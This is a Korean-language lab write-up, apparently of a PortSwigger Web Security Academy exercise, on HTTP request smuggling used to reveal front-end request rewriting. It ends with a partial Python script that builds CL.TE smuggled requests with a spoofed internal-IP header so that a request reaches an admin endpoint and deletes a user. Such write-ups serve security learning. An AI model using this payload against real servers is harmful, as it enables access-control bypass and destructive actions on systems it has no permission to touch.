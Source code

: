 이렇게 되면 Front-end가 수정한 정상적인 요청이 `email`의 값으로 여겨져서 응답에서 수정된 요청을 확인할 수 있습니다.

``` html
<input id="email" value="POST /login HTTP/1.1
Host: vulnerable-website.com
X-Forwarded-For: 1.3.3.7
X-Forwarded-Proto: https
X-TLS-Bits: 128
X-TLS-Cipher: ECDHE-RSA-AES128-GCM-SHA256
X-TLS-Version: TLSv1.2
x-nr-external-service: external
...
```

**NOTE :** 마지막 요청이 Front-end 서버에 의해 수정되기 때문에 길이가 얼마나 될 지 알 수가 없습니다. smuggled된 요청의  `Content-Length` 헤더의 값이 요청의 길이가 얼마인지 결정하게 됩니다. 그래서 만약 `Content-Length`의 값이 너무 작으면, 요청 중 일부만 받을 수 있고, `Content-Length`의 값이 크면, time-out 에러가 뜰 것입니다. 이 값을 수정해가면서 공격을 진행하면 됩니다.

Front-end 서버가 요청을 어떻게 수정하는지 알았다면, 필요한 사항들을 smuggle 될 요청에 추가합니다. 그러면 Back-end 서버에서도 정상적으로 그 요청을 처리할 수 있습니다.

**Lab: Exploiting HTTP request smuggling to reveal front-end request rewriting**

**LAB Description :**

Front-end, Back-end 서버로 이루어져있고 Front-end 서버는 chunked encoding을 지원하지 않습니다. 

`/admin` 에 어드민 패널이 있고 IP 127.0.0.1로부터만 접근이 가능합니다. Front-end 서버는 요청에 IP 주소를 포함한 헤더를 추가합니다.

Front-end 서버가 추가하는 헤더를 알기 위해 HTTP request smuggling 공격을 사용하고, 어드민 패널에 접근해서 `carlos` 유저를 삭제하면 됩니다.

**PAYLOAD :**

``` python
import socket
import requests
import ssl

HOST = "acc31f021f30ed03804c217e00c8001a.web-security-academy.net"
PORT = 443

def send_payload(data):
    context=ssl.create_default_context()
    sock=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    ssl_sock=context.wrap_socket(sock,server_hostname=HOST)
    ssl_sock.connect((HOST,PORT))
    ssl_sock.send(data)
    data = ssl_sock.recv(1024)
    ssl_sock.close()

    return data

second_request  = b'GET /admin/delete?username=carlos HTTP/1.1\r\n'
second_request += b'Content-Type: application/x-www-form-urlencoded\r\n'
second_request += b'X-erdsHb-Ip: 127.0.0.1\r\n'
second_request += b'Host: '+HOST.encode()+b'\r\n'
second_request += b'Content-Length: 100\r\n'
second_request += b'\r\n'
second_request += b'search='

first_request  = b'POST / HTTP/1.1\r\n'
first_request += b'Host: '+HOST.encode()+b'\r\n'
first_request += b'Content-Length: '+str(len(second_request)+5).encode()+b'\r\n'
first_request += b'Content-Type: application/x-www-form-urlencoded\r\n'
first_request += b'Transfer-Encoding: chunked\r\n'
#first_request += b'\r\n'
#first_request += hex(len(second_request))[2:].encode()+b'\r\n'
#first_request += second_request
first_request += b'\r\n'
```